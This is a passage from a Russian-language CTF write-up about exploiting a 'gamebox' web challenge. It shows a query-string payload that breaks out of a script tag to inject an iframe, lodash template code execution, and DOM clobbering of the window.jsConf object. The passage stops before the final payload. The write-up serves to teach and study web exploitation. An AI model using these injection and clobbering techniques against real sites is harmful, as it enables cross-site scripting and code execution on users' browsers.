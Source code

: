 ```js
  }

  const games = document.querySelectorAll(window.jsConf.games.selector);
	games.forEach(e => e.addEventListener('click', switchGame.bind(null, e.dataset.gameId)));
  if (games.length > 0) {
    switchGame(games[0].dataset.gameId);
  }
});
```

потом немного тыкаем по сайту и находим в исходниках 404 страницы такой кусок:
```js
<script nonce=9fe14fa462b70f2080f32b9a9dc38832>
  const target = window.opener || window.parent;
  if (!!target) {
    target.postMessage({kind: 'error', err: 'load failed'}, '*');
  }
</script>
```

Если вставить на страницу iframe с несуществующей страницей, то будет вызван showError, iframe мы можем вставить прям из query:
`https://gamebox.yactf.ru/?q[</script><iframe%20src=/404>]=1`

видим в консоле:
```
index.js:15 Uncaught TypeError: Cannot read properties of undefined (reading 'ui')
    at showError (index.js:15:64)
    at index.js:29:7
```

это строка
```js
  const tmpl = _.template(document.querySelector(window.jsConf.ui.errSelector).textContent.trim());
```

ок логично, мы же сломали определениие `window.jsConf` тем что закрыли тег script.

```html
<script nonce="fcd03ea90c8860dfd30890ce5c2998b2">
  window.jsConf={"query":{"q":{"
</script>
<iframe src=/404>
":"1"}},"games":{"selector":".game-thumb"},"ui":{"errSelector":"#error-msg"}}</script>
```

Вернёмся пока к _.template, быстро гуглится что если мы можем задать текст шаблона - то можем выполнить [любой код](https://web.archive.org/web/20211004200531/https:/github.com/lodash/lodash/issues/5261)

Значит нам нужно как-то определить `window.jsConf.ui.errSelector` не используя `<script />`

Тут я залип где-то на сутки)

Потом вспомнил что если дать элементу в html id то он будет доступен под ним в window, типа:
```html
<div id="jsConf"></div>
<script>
  console.log(window.jsConf) //определенно
</script>
```
